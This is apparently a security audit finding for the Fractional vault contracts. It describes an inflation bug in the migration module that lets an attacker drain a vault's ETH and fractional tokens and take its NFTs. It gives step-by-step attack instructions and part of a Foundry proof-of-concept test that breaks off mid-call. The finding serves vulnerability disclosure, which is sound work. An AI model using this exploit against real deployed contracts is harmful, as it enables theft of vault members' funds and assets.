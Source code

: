 #### Steps to reproduce

An attacker will exploit the inflation bug as follows:

1- Wait until there's at least 50% of the total supply of fractional tokens in the vault, being stacked into one or several proposals.

2- Create an evil proposal with evil modules and inflate the amount of ETH and fractional tokens in your proposal up to the exact amount of the total ETH and fractional tokens in the vault.

3- Commit your proposal. That will send all ETH and fractional tokens in the vault to your proposal and `start` it.

Now that your proposal has over 51% total supply of fractional tokens in it and a lot of ETH stolen from members of the vault, many creative things can be done, including taking over the Vault's NFTs with an evil module once the proposal goes through.

*NOTE: In the `REJECTION_PERIOD` victims can buy tokens to try to stop the proposal from going through, but the price of every tokens is calculated using the `depositAmount` and `msg.value` (<https://github.com/code-423n4/2022-07-fractional/blob/e2c5a962a94106f9495eb96769d7f60f7d5b14c9/src/modules/Buyout.sol#L86>) both values manipulated by the attacker.*

### Proof of Concept

The proof of concept took 4 hours and 33 mins to be written, as I tried hard to get a clean, and easy to understand and reproducible PoC that illustrates the impact of the attack.

Everything was put inside a function filled with comments at every stage, that can be included within the Unit Tests of the project.

You can read the PoC or include the function in `test/Migration.t.sol` and call `forge test -vvv --match-test testProposalAttack` to execute it.

```
    function testProposalAttack() public {
        initializeMigration(alice, bob, TOTAL_SUPPLY, HALF_SUPPLY, true);
        (nftReceiverSelectors, nftReceiverPlugins) = initializeNFTReceiver();
        address[] memory modules = new address[](1);
        modules[0] = address(mockModule);

        // STEP 0
        // The attacker waits until a proposal with over 51% joins and a nice amount of ETH is made

        // STEP 1
        // Alice makes a legit proposal
        alice.migrationModule.propose(
            vault,
            modules,
            nftReceiverPlugins,
            nftReceiverSelectors,
            TOTAL_SUPPLY * 2,
            1 ether
        );

        // STEP 3
        // Alice joins his proposal with 50 ETH and 5,000 tokens out of a total supply of 10,000
        alice.migrationModule.join{value: 50 ether}(vault, 1, 5000);

        // NOTE: In a real world scenario, several members will join Alice's legit proposal with their own ETH and tokens,
        // but to make this PoC easier to read, instead of creating several fake accounts,
        // let's have just Alice join his own proposal with 50% of token supply.

        // STEP 4
        // Bob makes an evil proposal, with evil modules to steal the vault's NFTs
        bob.migrationModule.propose(
            vault,
            modules,
```
